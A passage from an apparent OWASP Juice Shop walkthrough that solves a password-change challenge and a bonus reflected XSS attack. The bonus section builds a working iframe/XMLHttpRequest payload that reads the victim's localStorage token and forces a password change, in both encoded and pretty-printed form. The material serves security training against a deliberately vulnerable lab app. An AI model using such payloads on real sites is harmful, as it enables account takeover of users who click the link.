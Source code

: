 5. Craft a GET request with Bender's `Authorization Bearer` header to [http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic](http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic) to solve the challenge.
    
    ![GET request via PostMan](media/blog4/csrf_postman.png)
    

### **Bonus Round: Delivering the attack via reflected XSS**

If you want to craft an actually realistic attack against `/rest/user/change-password` that you could send a user as a malicious link, you will have to invest a bit extra work, because a simple attack like *Search* for `<img src="http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic">` will not work. Making someone click on the corresponding attack link [http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E) will return a `500` error when loading the image URL with a message clearly stating that your attack ran against a security-wall: `Error: Blocked illegal activity`

To make this exploit work, some more sophisticated attack URL is required:

[http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E](http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E)

Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS payload in his blog post [Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### **Stick cute cross-domain kittens all over our delivery boxes**

1. Log in with any user and go to [http://localhost:3000/#/deluxe-membership](http://localhost:3000/#/deluxe-membership)
2. Right-click and *Inspect* the image of the delivery boxes with the Juice Shop logo on them.
3. You will notice that this image is in fact an inline `<svg>` tag that includes six `<image>` tags. One is loading `assets/public/images/deluxe/blankBoxes.png` and the other five load `assets/public/images/JuiceShop_Logo.png` in different sizes and positions onto the SVG graphic.
4. Open the `main.js` in your browser DevTools and search for the corresponding Angular controller code related to that page and SVG image
5. You will be able to spot six `:svg:image` references, one of them `blankBoxes.png` and the other five seemingly unspecified at that time.
    